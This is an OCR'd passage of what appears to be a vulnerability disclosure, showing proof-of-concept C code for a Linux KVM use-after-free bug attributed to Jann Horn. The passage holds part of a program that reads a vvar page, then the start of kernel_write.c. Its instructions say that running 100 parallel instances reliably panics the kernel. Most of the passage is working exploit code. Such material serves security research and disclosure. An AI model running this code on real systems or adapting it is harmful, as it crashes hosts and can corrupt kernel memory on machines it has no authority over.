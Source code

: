```c
  if (ioctl(vcpu, KVM_GET_SREGS, &sregs))
    err(1, "KVM_GET_SREGS");
  sregs.cs.selector = 0;
  sregs.cs.base = 0;
  struct kvm_regs regs = {
    .rdi = 0x1f00,
    .rsi = 0xf00d,
    .rip = 0x0,
    .rflags = 2
  };
  if (ioctl(vcpu, KVM_SET_SREGS, &sregs))
    err(1, "set sregs");
  if (ioctl(vcpu, KVM_SET_REGS, &regs))
    err(1, "set regs");

  if (ioctl(vcpu, KVM_RUN, 0))
    err(1, "run vcpu");
  printf("exit_reason = %d\n", vcpu_state->exit_reason);
  if (vcpu_state->exit_reason == KVM_EXIT_FAIL_ENTRY) {
    printf("KVM_EXIT_FAIL_ENTRY happened: hardware_entry_failure_reason = 0x%lx\n",
           (unsigned long)vcpu_state->fail_entry.hardware_entry_failure_reason);
  }

  printf("testing read of first vvar page at offset 0xf00: 0x%lx\n", *(unsigned long *)(vvar_addr + 0xf00));
}
```

**kernel_write.c**
Compile the code below using `gcc -o kernel_write kernel_write.c`. What exactly happens when running the code depends on what the improperly freed page is reallocated for. Running 100 instances in parallel should reliably cause a kernel panic within a few seconds.

```c
/* @author Jann Horn */
#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>
#include <err.h>
#include <errno.h>
#include <fcntl.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <linux/kvm.h>

/* for real mode */
static __attribute__((aligned(4096))) char guest_code[0x1000] = {
  0x89, 0x35, /* mov [di],si */
  0xcc, /* int3 */
};

static void create_region(int vm, int slot, unsigned long guest_phys, unsigned long host_addr, unsigned long size) {
  struct kvm_userspace_memory_region region = {
    .slot = slot,
    .guest_phys_addr = guest_phys,
    .memory_size = size,
    .userspace_addr = host_addr
  };
  if (ioctl(vm, KVM_SET_USER_MEMORY_REGION, &region))
    err(1, "set region %d size=0x%lx", slot, size);
}
```